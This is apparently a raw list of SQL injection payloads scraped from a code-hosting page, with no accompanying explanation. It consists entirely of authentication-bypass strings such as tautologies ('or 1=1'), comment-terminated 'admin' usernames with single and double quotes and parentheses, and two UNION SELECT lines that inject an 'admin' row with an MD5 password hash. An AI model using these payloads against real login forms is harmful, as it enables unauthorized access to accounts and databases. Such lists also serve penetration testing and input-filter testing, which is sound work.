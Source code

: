 or 1=1 <br /> 
or 1=1-- <br /> 
or 1=1# <br /> 
or 1=1/* <br /> 
admin' -- <br /> 
admin' # <br /> 
admin'/* <br /> 
admin' or '1'='1 <br /> 
admin' or '1'='1'-- <br /> 
admin' or '1'='1'# <br /> 
admin' or '1'='1'/* <br /> 
admin'or 1=1 or ''=' <br /> 
admin' or 1=1 <br /> 
admin' or 1=1-- <br /> 
admin' or 1=1# <br /> 
admin' or 1=1/* <br /> 
admin') or ('1'='1 <br /> 
admin') or ('1'='1'-- <br /> 
admin') or ('1'='1'# <br /> 
admin') or ('1'='1'/* <br /> 
admin') or '1'='1 <br /> 
admin') or '1'='1'-- <br /> 
admin') or '1'='1'# <br /> 
admin') or '1'='1'/* <br /> 
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 <br /> 
admin" -- <br /> 
admin" # <br /> 
admin"/* <br /> 
admin" or "1"="1 <br /> 
admin" or "1"="1"-- <br /> 
admin" or "1"="1"# <br /> 
admin" or "1"="1"/* <br /> 
admin"or 1=1 or ""=" <br /> 
admin" or 1=1 <br /> 
admin" or 1=1-- <br /> 
admin" or 1=1# <br /> 
admin" or 1=1/* <br /> 
admin") or ("1"="1 <br /> 
admin") or ("1"="1"-- <br /> 
admin") or ("1"="1"# <br /> 
admin") or ("1"="1"/* <br /> 
admin") or "1"="1 <br /> 
admin") or "1"="1"-- <br /> 
admin") or "1"="1"# <br /> 
admin") or "1"="1"/* <br /> 
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 <br /> 
